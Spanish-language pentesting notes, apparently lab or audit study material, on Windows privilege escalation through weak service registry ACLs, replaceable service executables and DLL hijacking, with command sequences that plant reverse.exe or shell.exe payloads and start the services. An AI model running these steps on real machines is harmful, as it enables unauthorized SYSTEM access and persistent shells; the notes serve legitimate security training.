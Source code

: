 

### Weak Registry Permissions
- Windows guarda registros para cada servicio, por lo que tiene un ACLs, si el ACL (Access Control List) no esta bien configurada se puede aprovechar de esta para elevar los privilegios

```
> winPEASS quiet servicesinfo

> accesschk.exe /accepteula -uvwqk REGISTRO

> accesschk.exe /accepteula -ucqv user regsvc

> reg query RUTA DEL REGISTRO para veer donde se encuentra el ImagePath

> reg add RUTA del regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\reverse.exe /f

> net start regsvc
```

### Insecure Service Executables
- Si el servicio original es modificable por un usuario normal, podemos simplemente replazar por una shell.exe **SI ESTÁS EXPLOTANDOLO EN UNA AUDITORIA RECUERDA HACER UNA BACKUP DEL SRVICIO ORIGINAL**

````
> accesschk.exe /accepteula -quvw RUTA 

> acesschk.exe /accepteula -uvqc filepermsvc

> copy /Y shell.exe "RUTA DONDE QUIERES SUSTITUIR EL SERVICIO"

> net start filepermsvc



````

### DLL Hijacking
- Un servicio siempre tratará de cargar una funcionalidad desde una DLL (dynamic-link library). El DLL siempre cargará con los privilegios del servicio, si un DLL esta cargada desde una PATH absoluta entonces es posible escalar privilegios, si también tenemos permisos de escritura. Una misconfiguración muy común son los DLL que no se encuentra en el sistema por lo que con msfvenom podemos hacer un payload con formato DLL.

```

> accesschk.exe /accepteula -uvqc user dllsvc 

> sc qc dllsvc 

> Después poner el payload en el directorio donde este la vulnerabilidad


```
